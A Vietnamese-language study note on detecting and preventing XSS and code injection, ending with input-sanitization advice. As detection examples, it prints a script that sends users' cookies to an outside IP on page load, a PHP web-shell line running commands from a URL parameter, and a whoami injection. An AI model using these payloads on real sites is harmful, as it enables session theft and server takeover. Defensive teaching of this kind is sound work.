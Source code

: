 - **XSS** là một kỹ thuật tấn công trong đó kẻ tấn công chèn mã độc hại (thường là JavaScript) vào một trang web thông qua các đầu vào của người dùng (ví dụ: bình luận, biểu mẫu).
- Khi người dùng khác truy cập trang web này, trình duyệt của họ sẽ thực thi mã độc hại, cho phép kẻ tấn công:
    - Đánh cắp cookie, token, hoặc thông tin phiên (session).
    - Thực hiện các hành động thay mặt người dùng.
    - Chuyển hướng người dùng đến các trang web độc hại.

---

### **Cách phát hiện tấn công XSS**

1. **Phân tích các yêu cầu HTTP**:
    
    - Nếu chúng ta nhận thấy một lượng lớn yêu cầu HTTP được gửi đến một máy chủ nội bộ không xác định, đây có thể là dấu hiệu của XSS.
    - Example: Các yêu cầu chứa dữ liệu như cookie hoặc token được mã hóa hoặc không rõ ràng.
    
    ![[image 18.png|image 18.png](../../../../../Image/image%2018.png)
    
2. **Kiểm tra mã độc hại**:
    - Kẻ tấn công có thể chèn mã JavaScript vào các phần của trang web.
        
        ```JavaScript
        <script>
          window.addEventListener("load", function() {
            const url = "http://192.168.0.19:5555";
            const params = "cookie=" + encodeURIComponent(document.cookie);
            const request = new XMLHttpRequest();
            request.open("GET", url + "?" + params);
            request.send();
          });
        </script>
        ```
        
	-  Mã này sẽ gửi cookie của người dùng đến một máy chủ do kẻ tấn công kiểm soát.
3. **Phát hiện mã độc hại trong đầu vào người dùng**:
    - Kẻ tấn công có thể chèn mã PHP hoặc các lệnh hệ thống để thực thi các hành động độc hại.
        
        ```Plain
        <?php system($_GET['cmd']); ?>
        ```
        
        - Mã này cho phép kẻ tấn công thực thi các lệnh hệ thống thông qua tham số `cmd`.
        
        ```Plain
        <?php echo `whoami`; ?>
        ```
        
        - Mã này sẽ trả về tên người dùng hiện tại trên máy chủ.

---

### **Cách phòng chống tấn công XSS và Code Injection**

1. **Sanitize User Input**:
    - Luôn kiểm tra và làm sạch dữ liệu đầu vào từ người dùng để đảm bảo chúng không chứa mã độc hại.
    - Ví dụ: Loại bỏ hoặc mã hóa các ký tự đặc biệt như `<`, `>`, `&`, `"`, `'`.
2. **Không diễn giải đầu vào người dùng như mã**:
    - Không bao giờ xử lý đầu vào người dùng như mã thực thi (ví dụ: JavaScript, PHP).